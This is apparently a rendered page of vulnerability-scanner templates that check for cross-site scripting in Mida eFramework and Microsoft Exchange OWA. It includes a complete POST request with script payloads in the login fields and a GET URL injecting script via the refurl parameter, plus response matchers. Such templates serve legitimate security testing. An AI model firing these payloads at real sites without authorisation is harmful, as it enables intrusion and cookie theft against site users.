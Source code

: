 - Mida eFramework contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - mida,xss,edb

## Requests

### Step - 1

```
POST /MUP/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Referer: {{Hostname}}/MUP

UPusername=%22%3E%3Cscript%3Ejavascript%3Aalert%28document.cookie%29%3C%2Fscript%3E&UPpassword=%22%3E%3Cscript%3Ejavascript%3Aalert%28document.cookie%29%3C%2Fscript%3E

```

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. ">\<script>javascript:alert(document.cookie)\</script>

---

# Microsoft Exchange Server - Cross-Site Scripting

## Description

- Microsoft Exchange Server, or OWA, is vulnerable to a cross-site scripting vulnerability in refurl parameter of frowny.asp.
- severity - high
- tags - microsoft,exchange,owa,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.domain)//
